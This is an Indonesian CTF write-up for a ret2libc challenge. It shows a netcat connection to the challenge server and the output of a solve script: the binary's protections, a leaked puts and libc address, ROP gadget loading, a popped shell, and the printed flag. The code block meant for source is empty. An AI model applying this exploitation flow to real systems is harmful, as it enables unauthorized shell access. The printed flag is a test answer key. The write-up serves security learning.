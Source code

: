 Jika sebelumnya kalian belum pernah mengeksploit aplikasi sampai menuju Libc, nah ini bisa buat kalian belajar deh :D.

```
nc 103.157.96.13 7789
```

Download : https://mega.nz/#!U5Y3zYqR!dyjzmnGQ24WBaDXH9GcYaDrJqQh4mqRnjhYTonemJhc

```c

```

```bash
$ python3 solve.py                                                                    1 ⨯
[*] '/media/sf_ctf/rtolibc/chal20_server'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 103.157.96.13 on port 7789: Done
[*] Loading gadgets for '/media/sf_ctf/rtolibc/chal20_server'
b'-= Welcome to CTFR =-\n-= Buat ROP dan mengarahkan ke LIBC yaah :D =-\nInput: '
[*] puts address at 0x7ffff7e5d5a0
[*] '/media/sf_ctf/rtolibc/libc_docker.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc address at 0x7ffff7dd6000
[*] Loading gadgets for '/media/sf_ctf/rtolibc/libc_docker.so'
[*] Switching to interactive mode
/bin/sh
$ ls
chal20
flag
$ cat flag
CTFR{c0ngr4t5_1f_y0u_4r3_f1r5t_t1m3_3xpl01t1n9_u51n9_l1bc}
```

Flag 

```
CTFR{c0ngr4t5_1f_y0u_4r3_f1r5t_t1m3_3xpl01t1n9_u51n9_l1bc}
```